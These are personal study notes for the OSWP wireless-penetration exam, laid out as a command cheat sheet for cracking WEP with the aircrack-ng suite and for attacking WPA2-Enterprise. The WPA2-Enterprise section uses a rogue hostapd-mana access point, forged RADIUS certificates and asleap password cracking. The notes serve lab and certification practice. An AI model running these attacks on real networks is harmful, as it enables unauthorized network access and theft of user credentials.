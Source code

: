 # OSWP Notes
### Attacking WEP:

Prep monitoring interface

```
airmon-ng check kill
airmon-ng start wlan0
```

Setup active listener to catch traffic

```
airodump-ng --bssid <BSSID> -c <CHANNEL> -w <OUTFILE> <IFACE>
```
  
Deauth to generate some data and reveal clients

```
aireplay-ng -0 0 -a <BSSID> <IFACE>
```
  
Fake auth to generate IVs

```
aireplay-ng -1 6 -e <SSID> -a <BSSID> -h <CLIENT MAC> <IFACE>
```

Use ARP replay to catch and replay ARP packets, which will generate more data / IVs

```
aireplay-ng -3 -b <BSSID> -h <CLIENT MAC> <IFACE>
```

Be patient, it'll take a while to get enough IVs

Start running aircrack on the pcap file to crack it:

```
aircrack-ng <file>
```

Connect to network:

```
sudo /sbin/ifconfig wlan0 up
sudo /sbin/iwlist wlan0 scan
sudo /sbin/iwconfig wlan0 essid "NetworkName"
sudo /sbin/iwconfig wlan0 key network_key
sudo /sbin/iwconfig wlan0 enc on
```

You may need to run `dhclient wlan0`

alternative method:

```
sudo iwconfig wlan0 essid <SSID> key s:<KEY>
sudo dhclient wlan0
```

### WPA2 Enterprise:

Look for WPA MGT network in airodump

Grab cert files from wireshark / tshark traffic using tls.handshake.type == 11,3 or tls.handshake.certificate filters
  - view Packet Details >> TLSv1 Record Layer: Handshake Protocol: Certificate
  - save certificates to file, right click cert string and click Export Packet Bytes

View SSL cert info:

```
openssl x509 -inform der -in CERTIFICATE_FILENAME -text
```

Use freeradius to provide fake cert to clients
  - alter certificate_authority block in /etc/freeradius/3.0/certs/ca.cnf:
```
    [certificate_authority]
    countryName             = US
    stateOrProvinceName     = {2 letter state}
    localityName            = {City}
    organizationName        = {Company Name}
    emailAddress            = {Email}
    commonName              = "Such and Such Certificate Authority"
```
  - alter server block in /etc/freeradius/3.0/certs/server.cnf:
```
    [server]
    countryName             = US
    stateOrProvinceName     = {2 letter state}
    localityName            = {City}
    organizationName        = {Company Name}
    emailAddress            = {Email}
    commonName              = "Such and Such Certificate Authority"
```
  - change dir to /etc/freeradius/3.0/certs/ and run:
  ``` 
  rm dh && make
  ```
  - YOU WILL GET AN ERROR, but it doesn't matter

Setup hostapd-mana for the rogue AP using the (updated!) `mana.conf` file, move to `/etc/hostapd-mana/mana.conf`

Use mana.eap_user file, move to `/etc/hostapd-mana/mana.eap_user`

Start hostapd-mana:

```
hostapd-mana /etc/hostapd-mana/mana.conf
```

Hostapd-mana will output asleap commands, find a user with a successful login (from wireshark traffic) and run command like so:

```
<asleap command> -W /usr/share/john/password.lst
```

Create `wpa_supplicant.conf` file:

```
network={
  ssid="NetworkName"
  scan_ssid=1
  key_mgmt=WPA-EAP
  identity="Domain\username"
  password="password"
  eap=PEAP
  phase1="peaplabel=0"
  phase2="auth=MSCHAPV2"
}
```

Connect to network:

`wpa_supplicant -c <config file>`


Don't forget the grab and submit the proof. 
